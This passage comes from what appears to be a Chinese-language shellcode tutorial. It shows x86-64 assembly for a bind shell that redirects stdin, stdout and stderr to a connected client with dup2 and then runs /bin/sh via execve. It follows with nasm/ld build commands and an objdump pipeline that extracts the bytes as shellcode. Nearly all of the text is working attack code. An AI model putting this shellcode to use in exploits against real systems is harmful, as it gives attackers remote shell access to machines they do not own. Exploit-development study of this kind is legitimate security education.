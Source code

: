 ```
    xor rsi, rsi
    xor rdx, rdx
    syscall

;Store clientfd in RBX register 
    mov rbx, rax

;Dup2 syscall to stdin
    mov rdi, rbx
    xor rax,rax
    add rax, 33
    xor rsi, rsi
    syscall

;Dup2 syscall to stdout
    xor rax,rax
    add rax, 33
    inc rsi
    syscall

;Dup2 syscall to stderr
    xor rax,rax
    add rax, 33
    inc rsi
    syscall

;Execve syscall with /bin/sh
    xor rax, rax
    push rax
    mov rdx, rsp
    mov rbx, 0x68732f6e69622f2f
    push rbx
    mov rdi, rsp
    push rax
    push rdi
    mov rsi,rsp
    add rax, 59
    syscall
```

让我们汇编和链接它：

```
$ nasm -felf64 bind-shell.nasm -o bind-shell.o
$ ld bind-shell.o -o bind-shell
```

让我们将其转换为 shellcode：

```
$ objdump -M intel -D bind-shell | grep '[0-9a-f]:' | grep -v 'file' | cut -f2 -d: | cut -f1-7 -d' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | sed 's/ /\\\x/g' | paste -d '' -s
```
